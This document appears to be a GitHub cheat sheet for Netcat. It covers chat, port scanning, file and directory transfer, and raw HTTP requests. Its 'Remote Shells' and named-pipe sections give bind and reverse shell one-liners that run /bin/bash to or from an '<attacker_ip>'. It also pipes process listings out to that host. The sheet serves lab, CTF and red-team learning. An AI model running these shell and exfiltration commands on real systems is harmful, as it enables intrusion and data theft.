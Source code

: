 # Cybersecurity-Mastery-Tools-and-Commands
Tools to Master for Cybersecurity Cheat Sheet


# 🔧 Netcat (nc) Command Reference

Netcat (often abbreviated `nc`) is a lightweight, low-level network utility used for reading, writing, and piping data across TCP/UDP connections. It’s often called the **"Swiss Army Knife"** of networking.

---

## 📦 Installation

**Debian/Ubuntu:**

```bash
sudo apt install netcat
```

**RHEL/CentOS:**

```bash
sudo yum install nc
```

---

## ⚡ Basic Usage

### 🗣️ Simple Chat (TCP connection)

**On the server (listener):**

```bash
nc -lvp 1234
```

**On the client (connector):**

```bash
nc <server_ip> 1234
```

---

## 🔍 Port Scanning

```bash
nc -zv <target_ip> 1-1000
```

* `-z`: Zero-I/O mode (scan only)
* `-v`: Verbose output

---

## 📁 File Transfer

### ⬆️ Send File:

```bash
nc <receiver_ip> 4444 < file.txt
```

### ⬇️ Receive File:

```bash
nc -lvp 4444 > received.txt
```

---

## 👩‍🔌 Remote Shells

### Bind Shell (victim listens):

```bash
nc -lvp 4444 -e /bin/bash
```

### Reverse Shell (victim connects back):

```bash
nc <attacker_ip> 4444 -e /bin/bash
```

> ⚠️ Note: Many systems disable the `-e` flag. Use alternative techniques like `mkfifo` or `socat` instead.

---

## 🔀 Send Command Output

```bash
ps aux | nc <attacker_ip> 4444
```

---

## 🎯 Practical Examples

### 🕵️ Grab a Web Page (HTTP request):

```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```

### 📃️ Transfer a directory as tar.gz:

**Sender:**

```bash
tar czf - /my/folder | nc <receiver_ip> 4444
```

**Receiver:**

```bash
nc -lvp 4444 | tar xzvf -
```

---

## 🔐 Use with Named Pipes (No `-e` Available)

**On victim:**

```bash
mkfifo backpipe
cat backpipe | /bin/bash | nc <attacker_ip> 4444 > backpipe
```

---

## ⚠️ Security Note

Netcat is extremely powerful but also potentially dangerous. Always use it ethically and legally. Insecure by design — no encryption, no authentication.

---

## 🔗 Related Tools

* `ncat` – Netcat from Nmap with SSL support
* `socat` – More complex socket tool
* `cryptcat` – Encrypted Netcat variant

---

## 📚 Resources

* [https://nmap.org/ncat/](https://nmap.org/ncat/)
* [https://gtfobins.github.io/gtfobins/nc/](https://gtfobins.github.io/gtfobins/nc/)
* [https://highon.coffee/blog/netcat-cheat-sheet/](https://highon.coffee/blog/netcat-cheat-sheet/)

---

> 🧠 Save this as a quick reference and use it responsibly in your labs, CTFs, and red team exercises.
